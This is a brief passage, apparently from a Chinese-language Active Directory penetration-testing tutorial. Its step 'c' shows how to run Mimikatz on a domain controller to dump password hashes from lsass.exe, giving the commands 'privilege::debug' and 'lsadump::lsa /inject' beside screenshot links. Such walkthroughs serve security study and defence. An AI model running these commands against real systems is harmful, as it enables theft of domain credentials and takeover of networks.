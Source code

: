 [![](assets/1706090550-f83e898d8aa1b3e121d93e3b01783d55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100936-9f6ea882-ba5d-1.png)  
c、直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 哈希

```bash
privilege::debug
lsadump::lsa /inject
```

[![](assets/1706090550-a3f3498872c604d9402eeb491b12e458.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101003-af409626-ba5d-1.png)
